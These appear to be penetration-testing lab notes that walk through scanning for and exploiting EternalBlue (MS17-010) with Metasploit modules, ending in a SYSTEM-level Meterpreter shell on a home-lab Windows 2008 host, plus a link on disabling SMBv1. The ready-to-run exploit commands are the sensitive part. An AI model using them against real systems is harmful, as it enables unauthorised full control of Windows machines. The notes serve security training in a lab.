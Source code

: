 List out the services.

```
services
```

Perform a check using the EternalBlue auxiliary module. This module will be utilized to scan and check whether the target is vulnerable to the EternalBlue exploit.

You can scan an entire subnet if you are performing a penetration test on an entire network, I would recommand performing the vulnerability scanning with this module to essentially check whether any of the Windows systems on a network, are vulnerable to this particular exploit.

```
search type:auxiliary EternalBlue
use auxiliary/scanner/smb/smb_ms17_010
show options
set RHOSTS 10.10.10.7
run
```

Search for the EternalBlue exploit module.

```
search type:exploit EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.10.7
run
```

```
meterpreter > sysinfo
```

Check our privileges by typing in Get User ID command.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We currently have access on the target system as `NT AUTHORITY\SYSTEM`, which means we have the highest privileges possible on the Windows system. Which consequently means that we have total and complete control over this system and can execute any commands.

In this particular case, once we have utilized this particular exploit, we do not need to perform any privilege escalation as we've already obtained an elevated Meterpreter session. 

# Home Lab
Kali: 192.168.248.148

Windows 2008 R2: 192.168.248.133

[How to detect status, enable, and disable SMB protocols](https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=client#smbv1-on-smb-client)
